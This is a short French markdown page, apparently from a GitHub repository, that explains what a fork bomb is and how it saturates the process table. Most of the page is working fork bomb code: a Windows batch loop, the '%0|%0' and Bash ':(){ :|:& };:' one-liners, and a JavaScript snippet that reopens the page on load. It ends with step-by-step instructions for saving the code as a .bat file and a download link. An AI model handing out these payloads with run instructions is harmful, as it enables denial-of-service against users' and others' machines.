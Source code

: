 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  
Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  
Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
color a
:start
start
goto :start
```
Source : [Github](#Télécharger-depuis-Github)

# Variante Windows (Batch)
```
%0|%0
```

# Variante Linux (Bash)
```
:(){ :|:& };:
```

# Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)

## Télécharger depuis Github
- [github.com /Altherneum/.github /blob/main /note /OS/Windows /matrice.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/matrice.bat)